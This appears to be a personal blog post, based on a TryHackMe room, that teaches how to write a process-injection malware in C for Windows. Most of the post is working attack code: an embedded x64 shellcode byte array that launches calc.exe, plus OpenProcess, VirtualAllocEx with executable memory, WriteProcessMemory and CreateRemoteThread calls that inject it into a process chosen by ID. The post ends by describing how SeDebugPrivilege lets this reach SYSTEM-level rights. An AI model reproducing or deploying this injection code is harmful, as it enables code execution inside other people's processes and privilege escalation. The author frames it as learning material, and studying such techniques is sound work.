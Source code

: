 ```yaml
---
layout: default
title: Writing a simple malware in C
date: 2025-05-09 19:36 +0200
categories: [c]
---
```


# Writing a Simple Process Injection Malware in C

Based on Abusing Windows Internals from THM

 We have following algorithm :

![malware diagram]({{ site.baseurl }}/assets/img/mal.png)


Firs we need load libraries, stdio for input/output and windows for windows api.

```c
#include <stdio.h>
#include <windows.h>
```

Then simple create main (i will create with command line argument procession)

```c
int main(int arg_count, char * arg_array[]){}
```

Then define variables

```c
HANDLE proc_handle;
PVOID remote_mem;
```

And initiate shellcode(it just call calc in windows)

```C
unsigned char shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

```



Next step - create handle to chosen process

```c
proc_handle = OpenProcess(
PROCESS_ALL_ACCESS,    // Access rights to process
FALSE,                 // Inheriting of Handle
atoi(args_list[1])     // Process ID converted to int
);
```

Above you can see - victim process ID is passed as command line argument.
 

Next - allocate memory. There are some naming logic in winapi:

   1. func - assume it is default name

   2. funcA - same function, but to work with ASCII symbols    

   3. funcW - same function, but to work with wide symbols(unicode)

   4. funcEx  - same function, but to work with extended functional

And the point that VirtualAlloc - will only allocate memory in your own process, and to use other we need to call VirtualAllocEx.

```C
remote_mem = VirtualAllocEx(
    proc_handle,             // Handle to target process
    NULL,                    // Location in memory, NULL - autolocate
    sizeof(shellcode),       // Size of required memory
    (MEM_RESERVE|MEM_COMMIT),// Allocation type - both reserve and real commit
    PAGE_EXECUTE_READWRITE   // Memory protect rules
);
```

Now we should have oportunity to write in process memory.

```C
WriteProcessMemory(
    proc_handle,             // Handle to target process
    remote_mem,              // Pointer to memory
    shellcode,               // Pointer to buffer which should be writed
    sizeof(shellcode),       // Size of buffer
    NULL                     // Pointer to variable if you want store size
);
```

And finally - execute.

```C
CreateRemoteThread(
    proc_handle,             // Handle to target process
    NULL,                    // Security attributes, NULL for default
    0,                       // Stack size for new thread, 0 for default
    (LPTHREAD_START_ROUTINE)remote_mem,// Pointer to function converted to format
    NULL,                    // Pointer to function parameters
    0,                       // Creation flags, 0 for immediately
    NULL                     // Pointer to variable to store ID of thread
);
```

As for the application, the most popular situation is when you have privilege SeDebugPrivilege , which allows you to write/read to any process, you can write to the process owned by SYSTEM and thus get the highest possible rights in the system. Unfortunately, all modern antiviruses will notice this, but to learn to run, you need to learn to walk.

**_To be continued_**


<a href="/">Back to Home</a>
